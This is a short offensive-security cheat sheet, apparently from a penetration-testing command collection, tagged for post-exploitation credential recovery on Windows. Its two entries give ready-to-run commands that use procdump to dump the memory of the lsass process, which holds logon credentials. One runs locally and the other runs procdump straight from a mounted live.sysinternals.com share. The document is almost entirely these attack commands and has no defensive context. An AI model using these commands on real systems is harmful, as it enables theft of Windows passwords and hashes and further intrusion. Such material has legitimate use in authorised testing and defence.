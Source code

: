 # procdump

% procdump, lsass, credentials

## procdump - dump lsass - local
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

## procdump - dump lsass - remote
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
net use Z: https://live.sysinternals.com; Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
